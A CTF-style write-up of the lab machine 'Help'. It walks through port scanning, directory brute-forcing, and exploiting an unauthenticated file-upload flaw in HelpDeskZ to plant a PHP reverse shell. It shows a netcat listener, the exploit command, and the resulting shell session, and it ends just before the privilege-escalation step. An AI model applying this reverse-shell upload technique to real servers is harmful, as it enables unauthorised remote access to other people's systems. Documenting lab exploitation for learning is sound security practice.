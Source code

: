 We first start with scanning the ports. Nmap reveals that we have 3 open ports: 22, 80 and 3000. 
Trying to access port 3000 reveals by headers that it's a web application powered by express. I don't have expirience with it, therefore I decided to check port 80 first. Performing a deeper scan with nmap reveals its a web server powered by httpd. Straight away I checked for vulnerabilities for this version - only to find there are no sugnificant ones. 

I decided to run dirbuster in order to pick some interesting paths in the webserver (I used the medium wordlist provided by the tool):
```
root@kali:~# dirbuster 
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /support/ - 200
Mar 17, 2019 11:57:36 AM au.id.jericho.lib.html.LoggerProviderJava$JavaLogger info
INFO: StartTag a at (r23,c41,p1022) rejected because of '<' character at position (r23,c87,p1068)
Mar 17, 2019 11:57:37 AM au.id.jericho.lib.html.LoggerProviderJava$JavaLogger info
INFO: Encountered possible StartTag at (r23,c41,p1022) whose content does not match a registered StartTagType
Dir found: /support/images/ - 200
Dir found: /icons/ - 403
File found: /support - 301
Dir found: /support/js/ - 302
File found: /support/images/index.php - 200
File found: /support/js/index.php - 302
Dir found: /support/uploads/ - 302
File found: /support/uploads/index.php - 302
Dir found: /support/uploads/articles/ - 302
File found: /support/uploads/articles/index.php - 302
Dir found: /support/css/ - 200
File found: /support/css/index.php - 200
Dir found: /support/includes/ - 302
File found: /support/includes/index.php - 302
```
Looking at /support reveals a ticket system called helpdeskz - searching via searchsploit reveals we have a remote file upload exploit: https://www.exploit-db.com/exploits/40300

Okay, it seems that the programmer of the system didn't think much about the security of the upload function. Our plan will be as follows:
1. upload a php shell to the server
2. access that shell, thus activating it
3. gaining the user.txt
4. gaining the root.txt

We are going to exploit the function by guessing the time the file was uploaded (therefore, because the function ranges only between 0-300, we want to do it asap). The programmer hashed it with time as salt.

I used the first reverse shell I found in the internet and set my ip address in the internal vpn network as the target ip:
http://pentestmonkey.net/tools/web-shells/php-reverse-shell

then, when I tried to upload the file - I received the following error: `'We encountered a problem (cross-site request forgery detected); please try again.`
Going through the original code (which is located at https://github.com/evolutionscript/HelpDeskZ-1.0/) revealed that after 600 seconds the token is not valid anymore, therefore I need to upload the file faster. After doing that - I received a different error: **"FIle not allowed"**. This error got me stuck for hours. I found a couple of interesting function - verifyAttachment and verifyToken. However, it didn't make sense because .php files are supported in the system (in install.php) and the file is okay. Obviously uploading a different extension will give us nothing, we need that .php extension for the shell to work. I'm not familiar with php, so I began searching for the function the **actually** uploads the files. It seems that move_uploaded_files is the one we need. We can actually see that the programmer made it easy for us - the function is being called before the verifyAttachment() function, thus our file is actually in the server! it's in /support/uploads/tickets/

Couldn't believe I have spend hours on this one, while all the time it was infront of me. Anyway, reading the exploit we want to specify the name of the file and the basename. Before that, let's setup our reverse shell listener:
```
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
```
Now we run the script and we can see that our shell becomes alive:
```
root@kali:~# python exploit.py http://10.10.10.121/support/uploads/tickets/ reverse_shell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
```
On other tab:
```
connect to [10.10.13.78] from (UNKNOWN) [10.10.10.121] 50894
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 07:56:49 up 6 min,  0 users,  load average: 0.29, 0.26, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sam)
/bin/sh: 0: can't access tty; job control turned off
$ whomai
/bin/sh: 1: whomai: not found
$ dir
bin   etc	  initrd.img.old  lost+found  opt   run   sys  var
boot  home	  lib		  media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64		  mnt	      root  srv   usr  vmlinuz.old
$ cd ^?^?^?
/bin/sh: 3: cd: can't cd to 
$ cd home
$ ls
help
$ cat help
cat: help: Is a directory
$ cd help
$ ls
help
npm-debug.log
user.txt
$ cat user.txt
_hidden_
```
Now let's get our root:

